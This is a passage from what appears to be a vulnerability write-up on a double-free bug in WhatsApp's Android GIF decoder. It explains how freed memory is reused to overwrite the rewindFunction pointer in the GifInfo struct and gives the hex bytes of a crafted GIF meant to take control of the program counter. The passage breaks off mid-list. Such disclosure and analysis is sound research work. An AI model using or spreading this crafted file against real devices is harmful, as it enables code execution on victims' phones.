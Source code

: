 In the above snippet, variable $foo was freed twice. As a result, the next two allocations ($20 and $21) return the same address.

Now look at struct GifInfo in gif.h
```c
struct GifInfo {
    void (*destructor)(GifInfo *, JNIEnv *);  <<-- there's a function pointer here
    GifFileType *gifFilePtr;
    GifWord originalWidth, originalHeight;
    uint_fast16_t sampleSize;
    long long lastFrameRemainder;
    long long nextStartTime;
    uint_fast32_t currentIndex;
    GraphicsControlBlock *controlBlock;
    argb *backupPtr;
    long long startPos;
    unsigned char *rasterBits;
    uint_fast32_t rasterSize;
    char *comment;
    uint_fast16_t loopCount;
    uint_fast16_t currentLoop;
    RewindFunc rewindFunction;   <<-- there's another function pointer here
    jfloat speedFactor;
    uint32_t stride;
    jlong sourceLength;
    bool isOpaque;
    void *frameBufferDescriptor;
};
```
We then craft a GIF file with three frames of below sizes:
- sizeof(GifInfo)
- 0
- 0

When the WhatsApp Gallery is opened, the said GIF file triggers the double-free bug on rasterBits buffer with size `sizeof(GifInfo)`. Interestingly, in WhatsApp Gallery, a GIF file is parsed twice. When the said GIF file is parsed again, another GifInfo object is created. Bacause of the double-free behavior in Android, GifInfo `info` object and `info->rasterBits` will point to the same address. DDGifSlurp() will then decode the first frame to `info->rasterBits` buffer, thus overwriting `info` and its `rewindFunction()`, which is called right at the end of DDGifSlurp() function.

## Controlling PC register
The GIF file that we need to craft is as below:

```
47 49 46 38 39 61 18 00 0A 00 F2 00 00 66 CC CC 
FF FF FF 00 00 00 33 99 66 99 FF CC 00 00 00 00 
00 00 00 00 00 2C 00 00 00 00 08 00 15 00 00 08 
9C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 F0 CE 57 2B 6F EE FF FF 2C 00 00 
00 00 1C 0F 00 00 00 00 2C 00 00 00 00 1C 0F 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 2C 00 00 00 00 
18 00 0A 00 0F 00 01 00 00 3B
```
It contains four frames:
- Frame 1: